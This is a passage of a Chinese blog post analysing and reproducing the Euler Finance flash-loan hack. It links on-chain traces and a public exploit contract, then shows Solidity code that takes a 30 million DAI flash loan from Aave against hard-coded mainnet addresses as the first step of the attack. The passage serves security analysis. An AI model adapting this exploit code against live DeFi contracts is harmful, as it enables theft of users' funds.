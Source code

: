 0x583c : [Euler Pool: Dai Stablecoin (eDAI) Token Tracker | Etherscan](https://etherscan.io/token/0xe025e3ca2be02316033184551d4d3aa22024d9dc?a=0x583c21631c48d442b5c0e605d624f54a0b366c72)

黑客的主要攻击路径

[![image-20231112174618122](assets/1704418372-a5a06f8f4b3c48df7ce437ac96c02ba4.png)](https://oosec.cn/2023/11/12/EulerFinance%E9%97%AA%E7%94%B5%E8%B4%B7%E6%94%BB%E5%87%BB%E5%88%86%E6%9E%90%E5%A4%8D%E7%8E%B0/image-20231112174618122.png)

(图片来自PeckShield) 当然自己也可以根据[eth-0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d | MetaSleuth](https://metasleuth.io/result/eth/0xc310a0affe2169d1f6feec1c63dbc7f7c62a887fa48795d327d4d2da2d6b111d)分析

## 漏洞复现：

黑客闪电贷exp:[Tutorials/EulerHack.sol at main · BuildBearLabs/Tutorials (github.com)](https://github.com/BuildBearLabs/Tutorials/blob/main/EulerHack.sol)

### 黑客exp分析

1.通过Aave的闪电贷借入3000万DAI。这可以通过使用以下合约来完成，其中 excuteHack 用于请求闪电贷，excuteOperation 由 Aave 的闪电贷合约调用。

```js
contract Main {  
    DAI dai=DAI(0x6B175474E89094C44Da98b954EedeAC495271d0F);  //DAI合约  
    Euler euler=Euler(0x27182842E098f60e3D576794A5bFFb0777E025d3);  //Euler合约  
    AAVE aave=AAVE(0x7d2768dE32b0b80b7a3454c06BdAc94A69DDc7A9); //AAVE合约  
    address owner;   
    address\[\] tokens;  
    uint256\[\] nums1;  
    uint256\[\] nums2;  
    function excuteHack() public{  
        tokens.push(address(dai));  
        nums1.push(30000000000000000000000000);  
        nums2.push(0);  
        aave.flashLoan(address(this),tokens,nums1,nums2,address(this),hex"",0);  
    }  
    constructor(){  
      owner =msg.sender;  
    }  
    function executeOperation(  
        address\[\] calldata assets,  
        uint256\[\] calldata amounts,  
        uint256\[\] calldata premiums,  
        address initiator,  
        bytes calldata params  
    ) external returns (bool){  
        dai.approve(address(aave),type(uint256).max);  
        return true;  
    }
```
